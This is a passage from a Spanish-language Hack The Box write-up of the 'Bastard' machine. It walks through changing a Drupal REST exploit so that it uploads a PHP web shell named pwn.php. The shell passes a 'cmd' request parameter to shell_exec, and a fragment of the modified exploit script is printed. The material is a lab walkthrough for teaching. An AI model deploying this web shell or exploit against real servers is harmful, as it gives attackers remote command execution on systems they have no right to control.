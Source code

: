 ![](/assets/images/HTB/htb-writeup-Bastard/drupal3.PNG)

Efectivamente vemos que se cambio la ruta por defecto a `rest`, claro que de no haber acertado de esta forma, podriamos realizar un ataque de fuerza bruta para descubrir esta ruta como una manera alterna de hacerlo.

Pues viendo que esta ruta si es valida tbm lo modificaremos en el `exploit`. 

Finalmente vamos a modificar el archivo que crea por defecto, y vamos a crear uno propio. Este codigo nos permitira ejecutar comandos en la maquina victima mediante el parametro `cmd` a traves de la función `shell_exec`.

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

El exploit procederia a quedarnos de la siguiente manera con los cambios realizados.

```php
# Initialization

error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'pwn.php',
    'data' => '<?php echo "<pre>" . shell_exec($_REQUEST[\'cmd\']) . "</pre>"; ?>'
];

$browser = new Browser($url . $endpoint_path);
```
